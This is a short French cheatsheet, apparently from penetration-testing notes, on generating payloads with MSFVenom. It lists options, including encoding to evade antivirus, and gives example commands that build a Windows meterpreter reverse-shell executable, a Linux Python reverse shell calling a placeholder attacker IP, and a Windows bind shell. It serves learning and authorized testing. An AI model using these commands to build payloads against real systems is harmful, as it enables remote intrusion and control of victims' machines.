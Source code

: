 ```yaml
---
description: Cheatsheet de la génération de payload ( charge utile ) avec MSFVenom
---
```


# MSFVenom

<mark style="color:yellow;">**Génération de Payloads avec MSFVenom :**</mark>

`msfvenom -p <payload> [options]`

<mark style="color:yellow;">**Options courantes :**</mark>

* `-p <payload>` : Spécifie le type de payload (ex. windows/meterpreter/reverse\_tcp, linux/x86/shell\_reverse\_tcp).
* `-f <format>` : Spécifie le format de sortie (ex. exe, raw, python, ruby).
* `-o <output>` : Spécifie le fichier de sortie pour la charge utile générée.
* `LHOST=<IP>` : Spécifie l'adresse IP de l'attaquant pour le "reverse shell".
* `LPORT=<port>` : Spécifie le port de l'attaquant pour le "reverse shell" ou le port d'écoute pour le "bind shell".
* `--encoder <encoder>` : Encode la charge utile pour éviter la détection par les antivirus.
* `--platform <platform>` : Spécifie la plateforme cible (ex. Windows, Linux).

<mark style="color:yellow;">**Exemples d'utilisation :**</mark>

1.  <mark style="color:yellow;">Générer un "reverse shell" Windows en format executable :</mark>

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP de l'attaquant> LPORT=<port> -f exe -o shell.exe`
2.  <mark style="color:yellow;">Générer un "reverse shell" Linux en langage Python :</mark>

    `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP de l'attaquant> LPORT=<port> -f python -o shell.py`
3.  <mark style="color:yellow;">Générer un "bind shell" Windows en format raw :</mark>

    `msfvenom -p windows/shell_bind_tcp LPORT=<port> -f raw -o bind_shell.bin`
